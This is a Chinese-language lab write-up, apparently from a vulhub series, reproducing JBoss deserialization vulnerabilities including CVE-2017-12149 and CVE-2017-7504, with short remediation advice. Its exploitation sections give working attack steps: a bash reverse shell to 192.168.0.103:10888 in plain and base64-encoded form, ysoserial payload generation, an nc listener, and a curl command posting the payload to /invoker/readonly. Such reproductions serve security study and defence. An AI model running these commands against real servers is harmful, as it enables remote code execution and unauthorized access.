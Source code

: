 ```yaml
---
title: JBoss系列漏洞复现
author: jh2ng
cover: 'http://image.jh2ing.com/image-20220909153103839.png'
tags:
  - vulhub
categories:
  - 漏洞复现
abbrlink: 10279
date: 2022-09-09 15:30:00
---
```


### JBoss 5.x/6.x 反序列化漏洞（CVE-2017-12149）

#### 1、漏洞描述

该漏洞为 Java反序列化错误类型，存在于 Jboss 的 HttpInvoker 组件中的 ReadOnlyAccessFilter 过滤器中。该过滤器在没有进行任何安全检查的情况下尝试将来自客户端的数据流进行反序列化，从而导致了漏洞。

#### 2、影响版本

`5.x和6.x版本`

#### 3、漏洞复现

##### 3.1 环境搭建

`docker-compose up -d`快速搭建环境

![image-20220902153730562](http://image.jh2ing.com/image-20220902153730562.png)

访问网址：`http://xxx:8080/`，即可看到JBoos默认界面

![image-20220902154836657](http://image.jh2ing.com/image-20220902154836657.png)

##### 3.2 漏洞利用

漏洞出现在`/invoker/readonly`请求中，服务器将用户提交的POST内容进行了Java反序列化

通过检测工具发现存在漏洞，工具地址：`https://github.com/yunxu1/jboss-_CVE-2017-12149`

![image-20220902160123735](http://image.jh2ing.com/image-20220902160123735.png)

**反弹shell**

使用bash来反弹shell

```
bash -i >& /dev/tcp/192.168.0.103/10888 0>&1
```

但由于`Runtime.getRuntime().exec()`中不能使用管道符等bash需要的方法，我们需要用进行一次编码

编码后：

```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTAzLzEwODg4IDA+JjE=}|{base64,-d}|{bash,-i}
```

序列化数据生成

> 工具地址：https://github.com/frohoff/ysoserial

```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjAuMTAzLzEwODg4IDA+JjE=}|{base64,-d}|{bash,-i}" > 1.ser
```

这时同级目录下多了一个`1.ser`文件，然后打开nc工具监听本地端口

```
nc -lvp 10888
```

通过brup或者curl工具将这个文件发送到`/invoker/readonly`

```
curl http://192.168.0.106:8080/invoker/readonly --data-binary @1.ser
```

![image-20220909095916586](http://image.jh2ing.com/image-20220909095916586.png)

发送成功之后发现shell反弹成功

![image-20220909095840964](http://image.jh2ing.com/image-20220909095840964.png)

**第二种反弹方式**

> 链接地址：https://github.com/joaomatosf/JavaDeserH2HC

git下载

```
git@github.com:joaomatosf/JavaDeserH2HC.git
```

编译`ReverseShellCommonsCollectionsHashMap.java` 这里注意一下符号，Windows系统符号为`;`，Linux系统符号为`:`，还有需要注意的是Windows平台最好使用系统自带的cmd命令行

```
javac -cp .;commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java
```

生成`ser`文件，后面跟`IP:端口`，执行完成之后会创建`ReverseShellCommonsCollectionsHashMap.ser`文件

```
java -cp .;commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.0.103:10888
```

![image-20220909134529001](http://image.jh2ing.com/image-20220909134529001.png)

通过brup或者curl工具将这个文件发送到`/invoker/readonly`，成功反弹shell

![image-20220909134621866](http://image.jh2ing.com/image-20220909134621866.png)


#### 4、修复建议

- 升级版本
- 删除http-invoker.sar组件
- 限制访问

`...\httpinvoker.sar\invoker.war\WEB-INF`下的`web.xml`的`security-constraint`标签中，对http-invoker组件进行访问控制。

```
<url-pattern>/*</url-pattern>
```

### JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

#### 1、漏洞描述

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

#### 2、影响版本

`JBoss AS 4.x及之前版本`

#### 3、漏洞复现

##### 3.1 环境搭建

![image-20220909142355364](http://image.jh2ing.com/image-20220909142355364.png)

环境启动后，目标为`http://your-ip:8080`

访问`http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet`很有可能存在漏洞

![image-20220909143133571](http://image.jh2ing.com/image-20220909143133571.png)

##### 3.2 漏洞利用

该漏洞出现在`/jbossmq-httpil/HTTPServerILServlet`请求中，漏洞利用过程和上面的漏洞利用一样，这里不过多演示。

![image-20220909142809158](http://image.jh2ing.com/image-20220909142809158.png)

#### 4、修复建议

- 和上面一样

### JBoss JMXInvokerServlet 反序列化漏洞

#### 1、漏洞描述

这是经典的JBoss反序列化漏洞，JBoss在`/invoker/JMXInvokerServlet`请求中读取了用户传入的对象，然后我们利用Apache Commons Collections中的Gadget执行任意代码。

#### 2、影响版本

```
JBoss Enterprise Application Platform 6.4.4,5.2.0,4.3.0_CP10
JBoss AS (Wildly) 6 and earlier
JBoss A-MQ 6.2.0
JBoss Fuse 6.2.0
JBoss SOA Platform (SOA-P) 5.3.1
JBoss Data Grid (JDG) 6.5.0
JBoss BRMS (BRMS) 6.1.0
JBoss BPMS (BPMS) 6.1.0
JBoss Data Virtualization (JDV) 6.1.0
JBoss Fuse Service Works (FSW) 6.0.0
JBoss Enterprise Web Server (EWS) 2.1,3.0
```

#### 3、漏洞复现

##### 3.1 环境搭建

![image-20220909151614371](http://image.jh2ing.com/image-20220909151614371.png)

初始化完成后访问`http://your-ip:8080/`即可看到JBoss默认页面。

##### 3.2 漏洞利用

JBoss在处理`/invoker/JMXInvokerServlet`请求的时候读取了对象，所以我们直接将[ysoserial](https://github.com/frohoff/ysoserial)生成好的POC附在POST Body中发送即可。整个过程可参考`CVE-2017-12149`

### 参考链接

>https://www.freebuf.com/articles/web/272033.html
>
>https://paper.seebug.org/312/

